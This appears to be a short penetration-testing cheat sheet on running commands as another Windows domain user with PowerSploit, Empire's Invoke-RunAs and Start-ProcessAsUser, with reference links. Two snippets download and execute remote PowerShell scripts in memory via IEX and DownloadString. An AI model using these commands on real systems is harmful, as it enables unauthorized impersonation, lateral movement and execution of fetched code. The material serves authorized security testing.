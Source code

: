 # Scripts

## PowerSploit

```powershell
$username = "<DOMAIN>\<username>"
$password = "<password>"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword)
Invoke-UserImpersonation -Credential $credential
# To revert back to original privileged access
Invoke-RevertToSelf
```

## Invoke-RunAs

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/management/Invoke-RunAs.ps1')

PS C:\> Invoke-RunAs -UserName "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd <command> [-Arguments "<arguments>"]
```

## Start-ProcessAsUser

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Start-ProcessAsUser.ps1')

PS C:\> Start-ProcessAsUser -Domain <domain>.<tld> "<username>" -Password "<password>" -Domain "<DOMAIN>" -Cmd "<command> [arguments]" -NetOnly
```

---
## References

### Hacktricks

- [Hacktricks: PowerView](https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html)

### Pentester's Promiscous Notebook

- [Pentester's Promiscous Notebook: RunAs](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/lateral-movement/runas)